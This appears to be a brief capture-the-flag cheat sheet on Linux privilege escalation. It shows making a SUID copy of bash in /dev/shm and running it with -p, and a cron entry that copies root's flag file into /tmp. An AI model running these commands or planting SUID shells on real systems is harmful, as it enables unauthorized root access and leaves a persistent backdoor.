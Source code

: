 

SUID clone of bash
```bash
# privileges to copy SUID bash
cp /bin/bash /dev/shm/hacked
chmod +sx /dev/shm/hacked

# under priv user
./hacked -p

```


Crontrab
* https://crontab-generator.org/
```sh
# cat root flag
* * * * * cat /root/root.txt > /tmp/test.log
```